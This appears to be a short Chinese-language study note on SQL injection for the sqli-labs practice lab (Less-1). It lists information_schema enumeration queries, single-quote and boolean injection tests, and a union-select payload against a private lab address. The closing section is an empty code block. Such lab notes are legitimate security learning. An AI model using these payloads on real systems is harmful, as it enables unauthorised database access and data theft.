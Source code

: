 

```sql
#查询数据库
select schema_name from information_schema.schemata;
#查询数据库数据表
select table_name from information_schema.tables where table_schema='security';
#查询表的所有列
select column_name from information_schema.columns where table_name='emails';
```

前置databases知识点

前置SQL注入知识点

判断是否存在SQL注入

```
#get单引号判断
?id=1'  报错就存在
#get and判断
?id=-1' and1=2

```

​     http://192.168.111.7:9011/Less-1/?id=-1' union select 1,2,database()--+

sql注入第一关

```

```

